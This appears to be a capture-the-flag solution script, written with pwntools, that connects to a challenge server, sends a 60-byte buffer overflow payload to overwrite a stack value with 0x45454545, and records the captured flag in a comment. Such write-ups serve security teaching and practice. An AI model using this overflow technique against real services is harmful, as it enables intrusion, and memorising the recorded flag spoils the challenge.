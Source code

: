 from pwn import *

#p = process('./buffer')
#elf = ELF('./buffer')
p = remote('chall.pwnoh.io', 13372)
res = p.recvuntil(':')
print(res)
offset = 60
payload = b'a' * offset + p64(0x45454545)
p.sendline(payload)

p.interactive()

#bctf{wHy_WriTe_OveR_mY_V@lUeS}
